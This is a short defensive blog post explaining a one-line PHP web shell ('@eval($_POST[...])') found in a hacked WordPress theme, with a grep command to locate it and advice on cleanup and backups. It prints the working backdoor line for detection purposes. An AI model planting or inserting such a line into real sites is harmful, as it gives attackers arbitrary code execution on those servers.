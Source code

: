 ```yaml
---
layout: post
title: Code Injection Attacks in WordPress
ctime: 2017-07-05
---
```


tl;dr: If you find this line of code in any files of your WordPress install, get worried, **get rid of it immediately**.

```php
<?php @eval($_POST['@01']);?>
```

> With this line of code, the hacker will be able to **execute any code he wants**. Therefore this code will have the power to **read, update or delete any data he wants**.

> We don't know yet what code he will choose to execute because the code will be passed as a `$_POST` argument. The `$_POST[1]` argument will contain a string of executable code. Then, `eval()` will be called with this argument to execute that code.

> When the hacker will call your page, passing it some code as a POST argument, he will be performing an attack that is called **code injection**.

> Now that you know that, you have to figure out:

> 1. What **damage** has already been done in order to undo it, if possible?
> 2. What **security breach** allowed the hacker to add the "eval" code to your code base?

> If you decide to restore a backup, make sure the "eval" code is not already in your backup. Then, solve problem #2 because the hacker will probably just re-use the same security breach to restore his hack. Even if your backup is clean, the security breach will still be there.

```bash
# egrep -lri '@eval' .
./public_html/wp-content/_themes/business-one-page/404.php
```

Links
---
- [StackOverflow: What is the meaning of @eval($_POST[1])](https://stackoverflow.com/questions/36374420/what-is-the-meaning-of-eval-post1)